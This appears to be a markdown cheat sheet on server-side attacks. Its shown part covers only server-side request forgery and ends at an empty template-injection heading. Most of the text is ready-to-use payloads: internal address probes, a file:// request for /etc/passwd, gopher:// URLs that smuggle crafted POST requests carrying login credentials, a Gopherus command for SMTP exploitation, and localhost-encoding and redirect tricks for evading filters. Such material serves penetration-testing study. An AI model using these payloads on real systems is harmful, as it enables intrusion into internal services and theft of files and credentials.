

# Server Side Attacks 

Server-side attacks target the application or service provided by a server, whereas a client-side attack takes place at the client's machine, not the server itself.
For instance, vulnerabilities like Cross-Site Scripting (XSS) target the web browser, i.e., the client. On the other hand, server-side attacks target the web server.

- Server-Side Request Forgery (SSRF)
- Server-Side Template Injection (SSTI)
- Server-Side Includes (SSI) Injection
- eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection

## Server Side Request Forgery

Server-side request forgery vulnerability can be identified in applications that use features that make some type of HTTP request or other request based on user input.

````
http://127.0.0.1
http://127.0.0.1:<FUZZ_PORT>
http://<IP_Internal_Network>
````

**Local File Inclusion (LFI)**
````
file:///etc/passwd
````
**Gopher Protocol**
````
gopher://[host]:[port]/[type][selector]

gopher://<domain>:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20<domain>%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmi

gopher://backend:80/_POST%20/login%20HTTP/1.1%0D%0AHost%3A%20backend%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2041%0D%0A%0D%0Ausername%3Dwhite.rabbit%26password%3Ddontbelate%0D%0A
````
https://github.com/fuzzlove/GopherSSRF
https://github.com/tarunkant/Gopherus
````
$ python2.7 gopherus.py --exploit smtp
````

**Filter**

Other Representations of Localhost
````
http://localhost
http://127.0.0.1
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0/
http://127.1
http://127.0.1
http://2130706433
http://0177.0.0.1
http://[::]
http://[0000::1]
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
````

**Bypass using Redirects**

https://httpbin.org/
https://github.com/Horlad/r3dir
````
https://httpbin.org/redirect-to?url=http://localhost
https://307.r3dir.me/--to/?url=http://localhost
````

## Server Side Template Injection


